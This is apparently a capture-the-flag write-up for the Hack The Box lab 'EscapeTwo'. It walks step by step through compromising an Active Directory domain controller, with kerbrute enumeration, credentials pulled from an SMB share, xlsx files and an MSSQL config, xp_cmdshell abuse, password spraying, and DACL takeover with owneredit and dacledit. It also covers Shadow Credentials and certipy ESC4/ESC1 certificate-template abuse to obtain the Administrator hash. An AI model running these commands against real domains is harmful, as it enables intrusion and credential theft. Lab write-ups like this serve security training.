

# EscapeTwo

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Enumeration

```bash
nmap -v -A -O -p- -T4 -Pn -sC escapetwo.htb -oN nmap
```

```bash
Nmap scan report for escapetwo.htb (10.10.11.51)
Host is up (0.052s latency).
Not shown: 65509 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-14 11:24:34Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
|_SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
|_ssl-date: 2025-01-14T11:26:10+00:00; 0s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
|_SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
|_ssl-date: 2025-01-14T11:26:10+00:00; 0s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.51:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.51:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-01-14T11:26:10+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-01-14T11:08:06
| Not valid after:  2055-01-14T11:08:06
| MD5:   7b3c:638c:8f9f:cc33:144a:0fd6:54a9:9b53
|_SHA-1: 18c4:6ab8:6a41:31c1:1dbc:924c:1971:27d7:557a:305c
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-14T11:26:10+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
|_SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-14T11:26:10+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
|_SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC
49736/tcp open  msrpc         Microsoft Windows RPC
49815/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-14T11:25:34
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   47.06 ms 10.10.14.1
2   47.49 ms escapetwo.htb (10.10.11.51)
```

The FQDN of AD seems to be `sequel.htb`. Modify `/etc/hosts` file:

<figure><figcaption></figcaption></figure>

### Port 88&#x20;

Using `kerbrute` we can enumerate users:

<figure><figcaption></figcaption></figure>

```
ryan@sequel.htb
rose@sequel.htb -> KxEPkKe6R8su
oscar@sequel.htb
administrator@sequel.htb
```

Effectively the account rose exists as show in MACHINE INFORMATION box.

### Port 445

Using rose credentials, we can try to enumerate some shares thanks to SMBMAP:

<figure><figcaption></figcaption></figure>

Under the "Accounting Department" share we will find 2 interesting files:

<figure><figcaption></figcaption></figure>

If we try to open it, we encounter an error... Mmhh strange... Seems not to be an XLSX file. In fact are zip files:

<figure><figcaption></figcaption></figure>

Unzipping the `accounts.xlsx` file, we will find an interesting XML file containing juicy data:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```
angela -> 0fwz7Q4mSpurIt99
oscar -> 86LxLBMgEWaKUnBG
kevin -> Md9Wlq1E5bZnVDVo
sa -> MSSQLP@ssw0rd!
```

## Foothold (sa)

### Port 1433

Try to access MSSQL using sa user:

```bash
mssqlclient.py sequel.htb/sa:'MSSQLP@ssw0rd!'@sequel.htb -port 1433
```

<figure><figcaption></figcaption></figure>

As user "sa" enable the `xp_cmdshell`:

<figure><figcaption></figcaption></figure>

Under `C:` there is the `SQL2019` directory:

<figure><figcaption></figcaption></figure>

and here we will find the sql configuration file:

<figure><figcaption></figcaption></figure>

```
SQLSVCACCOUNT="SEQUEL\sql_svc"                      
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
```

## Privilege Escalation (ryan)

Create two files containing users and passwords found so far:

<figure><figcaption></figcaption></figure>

and go on with a passwords spray attack :sparkler:

```bash
crackmapexec winrm -u users.lst -p pass.lst --continue-on-success sequel.htb
```

<figure><figcaption></figcaption></figure>

And finally get the user flag:

<figure><figcaption></figcaption></figure>

## Privilege Escalation (Administrator)

Using this valid pair of domain credential, start internal enumeration with Bloodhound:


```bash
bloodhound-python -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 -ns 10.10.11.51 -c All -v 
```


Use this QUERY to find the shortest path from owned principals (RYAN) to value targets:

```
MATCH p=shortestPath((c {owned: true})-[*1..2]->(s)) WHERE NOT c = s RETURN p
```

<figure><figcaption></figcaption></figure>

Ryan has `WriteOwner` rights on `CA_SVC` and `CA_SVC` is a certificate issuer, because is member of `Cert Publishers` Group. So we can set the owner of the `CA_SVC` to be Ryan:


**WriteOwner**: Provides the ability to take ownership of an object.

The owner of an object can gain full control rights on the object. The right to assume ownership of the object. The user must be an object trustee.



```bash
owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
```


<figure><figcaption></figcaption></figure>

Let’s grant the user `ryan` <mark style="color:yellow;">**full control**</mark> over the `ca_svc` principal using Impacket’s dacledit tool.


```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51
```


<figure><figcaption></figcaption></figure>

Now that we have the FullControl on a certificate publisher, enumerate Certificate Template in order to escalate privilege inside the domain.

First of all, enumerate certificate templates available and enabled and import ZIP output inside BloodHound:


```bash
certipy-ad find -enabled -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -dc-ip 10.10.11.51 -vulnerable -enabled -old-bloodhound
```


<figure><figcaption></figcaption></figure>

In the image below, we can see that the user “ca\_svc” is a member of the “Cert Publishers” group and has `GenericAll` rights for the `DUNDERMIFFLINAUTHENTICATION` template.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Follow the ESC4 ADCS Privilege Escalation Path, but before use Shadow Credentials attack.


```bash
certipy-ad shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'
```


We will get NThash of `ca_svc` below:

<figure><figcaption></figcaption></figure>

Leveraging the <mark style="color:yellow;">**WriteProperty**</mark> right we have as a `ca_svc` because member of `Cert Publishers`, we go ahead and, using KRB5CCNAME file to impersonate ca\_svc, exploit the rights we have on the misconfigured template by editing the template with the 'template' module from Certipy in order to make this template vulnerable to ESC1 attacks:&#x20;


```bash
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template "DunderMifflinAuthentication" -dc-ip 10.10.11.51  -target dc01.sequel.htb
```


<figure><figcaption></figcaption></figure>

Now finally use the `ca_svc` user's credential hash to obtain an authentication ticket for the target system via a Kerberos request:


```bash
certipy-ad req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template "DunderMifflinAuthentication" -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug -out administrator
```


<figure><figcaption></figcaption></figure>

Get the Administrator's hash from the certificate:

```bash
certipy-ad auth -pfx administrator.pfx -domain sequel.htb
```

<figure><figcaption></figcaption></figure>

And finally evil-winrm and got the root flag :tada:

<figure><figcaption></figcaption></figure>
